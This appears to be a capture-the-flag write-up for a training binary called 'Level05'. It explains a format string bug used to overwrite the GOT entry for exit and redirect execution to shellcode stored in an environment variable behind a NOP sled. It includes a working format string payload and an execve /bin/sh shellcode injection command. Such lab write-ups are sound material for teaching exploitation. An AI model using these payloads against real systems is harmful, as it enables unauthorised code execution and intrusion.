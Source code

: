 # Level05

## Vulnerability type:

Format String Vulnerability, Return-to-Libc (RET2LIBC)

## Walkthrough:

The program has a Format String Vulnerability, and it also calls the `exit` function. We can use this to our advantage by modifying the Global Offset Table (GOT) entry for `exit` to redirect program flow.

The issue here is that the program is applying a `to_lowercase` function on the buffer and it impacts the shell code we injected.

To bypass that, need to store the shellcode inside an environment variable and access it from the program. By using the `env -i` command (start with empty env) and a NOP sled, we increase our chances to reach the shellcode.

## Payload:

### Format string vuln. exploit

```bash
python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%56942x %10$n" + "%8593x %11$n"' > /tmp/05
```

### Shellcode injection

```bash
$ cat /tmp/05 - | env -i SHELLCODE=$(python -c "print('\x90' * 500 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80')") ./level05
```
